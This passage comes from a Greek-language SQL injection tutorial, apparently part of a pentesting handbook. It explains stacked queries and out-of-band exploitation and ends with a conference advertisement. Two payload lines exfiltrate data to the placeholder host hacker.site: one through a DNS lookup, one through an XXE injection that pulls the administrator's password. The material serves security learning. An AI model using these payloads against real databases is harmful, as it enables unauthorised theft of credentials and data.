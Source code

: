Μπορείτε να χρησιμοποιήσετε stacked queries για να **εκτελέσετε πολλαπλά queries διαδοχικά**. Σημειώστε ότι ενώ οι επόμενες queries εκτελούνται, τα **αποτελέσματα** **δεν επιστρέφονται στην εφαρμογή**. Επομένως, αυτή η τεχνική είναι κυρίως χρήσιμη σε σχέση με **blind vulnerabilities** όπου μπορείτε να χρησιμοποιήσετε μια δεύτερη query για να ενεργοποιήσετε μια αναζήτηση DNS, μια συνθήκη σφάλματος ή καθυστέρηση χρόνου.

**Oracle** δεν υποστηρίζει **stacked queries.** **MySQL, Microsoft** και **PostgreSQL** τις υποστηρίζουν: `QUERY-1-HERE; QUERY-2-HERE`

## Out of band Exploitation

Αν **κανένας άλλος** μέθοδος εκμετάλλευσης **δεν λειτούργησε**, μπορείτε να προσπαθήσετε να κάνετε τη **βάση δεδομένων να εξάγει** τις πληροφορίες σε έναν **εξωτερικό host** που ελέγχετε. Για παράδειγμα, μέσω DNS queries:
```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
```
### Εξαγωγή δεδομένων εκτός ζώνης μέσω XXE
```sql
a' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hacker.site/"> %remote;]>'),'/l') FROM dual-- -
```
## Αυτοματοποιημένη Εκμετάλλευση

Δείτε το [SQLMap Cheatsheet](sqlmap/) για να εκμεταλλευτείτε μια ευπάθεια SQLi με [**sqlmap**](https://github.com/sqlmapproject/sqlmap).

## Τεχνικές συγκεκριμένες πληροφορίες

Έχουμε ήδη συζητήσει όλους τους τρόπους εκμετάλλευσης μιας ευπάθειας SQL Injection. Βρείτε μερικά ακόμα κόλπα που εξαρτώνται από την τεχνολογία βάσης δεδομένων σε αυτό το βιβλίο:

* [MS Access](ms-access-sql-injection.md)
* [MSSQL](mssql-injection.md)
* [MySQL](mysql-injection/)
* [Oracle](oracle-injection.md)
* [PostgreSQL](postgresql-injection/)

Ή θα βρείτε **πολλά κόλπα σχετικά με: MySQL, PostgreSQL, Oracle, MSSQL, SQLite και HQL σε** [**https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​[**RootedCON**](https://www.rootedcon.com/) είναι η πιο σχετική εκδήλωση κυβερνοασφάλειας στην **Ισπανία** και μία από τις πιο σημαντικές στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες της τεχνολογίας και της κυβερνοασφάλειας σε κάθε πειθαρχία.

{% embed url="https://www.rootedcon.com/" %}

## Παράκαμψη αυθεντικοποίησης
